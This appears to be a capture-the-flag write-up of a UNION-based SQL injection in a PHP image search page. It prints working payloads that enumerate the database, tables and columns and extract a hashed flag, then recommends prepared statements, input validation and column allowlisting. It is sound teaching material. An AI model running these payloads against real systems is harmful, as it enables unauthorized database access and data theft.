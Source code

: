 # Union-Based SQL Injection Vulnerability (Image Search)

## 🎯 Overview
This vulnerability demonstrates a UNION-based SQL injection attack in the image search functionality, allowing extraction of sensitive information through SQL query manipulation without error messages.

## 🔍 Vulnerability Details
- **Endpoint**: `/index.php?page=searchimg`
- **Attack Vector**: SQL Injection via image search
- **Database Name**: Member_images
- **Vulnerable Table**: list_images
- **Attack Type**: Blind SQL Injection with UNION

## ⚔️ Exploitation Process

### 1. Database Enumeration
```sql
# Get database name
1 union all select 1,database()
Result: Member_images
```

### 2. Table Discovery
```sql
# Enumerate tables
1 union all select 1,group_concat(table_name) 
from Information_schema.tables 
where table_schema=database()
Result: list_images
```

### 3. Column Enumeration
```sql
# Get column names (hex-encoded table name to avoid issues)
1 union all select 1,group_concat(column_name) 
from Information_schema.columns 
where table_name=0x6c6973745f696d61676573
Result: id,url,title,comment
```

### 4. Data Extraction
```sql
# Extract comments containing the encrypted flag
1 union all select 1,group_concat(comment,0x0a) 
from list_images
Result: "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
```

### 5. Flag Decryption Process
1. MD5 Hash: `1928e8083cf461a51303633093573c46`
2. Decrypted: `albatroz`
3. SHA256:
```bash
echo -n albatroz | shasum -a 256
```

### Attack Result
**Flag**: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## 🛡️ Security Issues Identified
1. No input validation
2. No prepared statements
3. Weak password storage
4. Insufficient access controls
5. Vulnerable query structure

## 🔒 Recommended Security Fixes

### 1. Implement Prepared Statements
```php
# Use PDO with prepared statements
public function searchImage($term) {
    $stmt = $this->db->prepare("
        SELECT title, url 
        FROM list_images 
        WHERE title LIKE :term 
        OR description LIKE :term
    ");
    $stmt->execute(['term' => "%{$term}%"]);
    return $stmt->fetchAll();
}
```

### 2. Input Validation
```php
function sanitizeSearchTerm($input) {
    // Remove special characters
    $clean = preg_replace('/[^a-zA-Z0-9\s-]/', '', $input);
    // Limit length
    return substr($clean, 0, 50);
}
```

### 3. Query Structure
```php
class ImageSearch {
    private $allowedColumns = ['title', 'description', 'category'];
    
    public function buildQuery($searchTerm, $column = 'title') {
        if (!in_array($column, $this->allowedColumns)) {
            throw new InvalidArgumentException('Invalid column');
        }
        
        $stmt = $this->db->prepare("
            SELECT id, title, url 
            FROM list_images 
            WHERE {$column} LIKE :term
        ");
        return $stmt;
    }
}
```

### 4. Security Measures Checklist
- [ ] Implement prepared statements
- [ ] Add input validation
- [ ] Use parameterized queries
- [ ] Limit query results
- [ ] Implement proper error handling
- [ ] Add query timeouts
- [ ] Use secure password storage

## 📝 Best Practices

### Query Security
1. Use parameterized queries
2. Validate and sanitize all inputs
3. Implement proper error handling
4. Use least privilege database users
5. Regular security audits

### Database Configuration
```php
// Secure database configuration
$config = [
    'DB_USER' => 'limited_user',
    'DB_CHARSET' => 'utf8mb4',
    'DB_OPTIONS' => [
        PDO::ATTR_EMULATE_PREPARES => false,
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC
    ]
];
```

## 📚 Additional Resources
- [OWASP SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [MySQL Security Best Practices](https://dev.mysql.com/doc/refman/8.0/en/security-best-practices.html)
- [PHP Database Security](https://www.php.net/manual/en/security.database.sql-injection.php)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.